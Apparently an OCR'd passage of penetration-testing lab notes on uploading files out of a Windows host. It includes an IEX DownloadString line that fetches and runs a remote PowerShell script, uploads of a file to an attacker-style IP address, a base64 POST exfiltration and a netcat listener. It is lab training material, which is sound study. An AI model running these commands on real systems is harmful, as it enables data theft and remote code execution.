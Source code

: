             
            
            
## Upload Operations

#### PowerShell Base64 Encode & Decode

    Encode File Using PowerShell
```    
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

```
    
    
## PowerShell Web Uploads

We'll need a web server that accepts uploads, which is not a default option in most common webserver utilities.
    
For our web server, we can use uploadserver, an extended module of the Python HTTP.server module.

```    
$ pip3 install uploadserver
$ python3 -m uploadserver
```
    Now we can use a PowerShell script PSUpload.ps1 which uses Invoke-WebRequest to perform the upload operations. The script accepts two parameters -File, which we use to specify the file path, and -Uri, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.
```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

## PowerShell Base64 Web Upload
    
Use  Invoke-WebRequest or Invoke-RestMethod together with Netcat to listen in on a port we specify and send the file as base64 encoded body to a POST request. 

```
PS > $b64 = [System.convert]::ToBase64String((Get-Content -Path 'path/to/file' -Encoding Byte))

PS > Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```
$ nc -lvnp 8000
```


## SMB Uploads
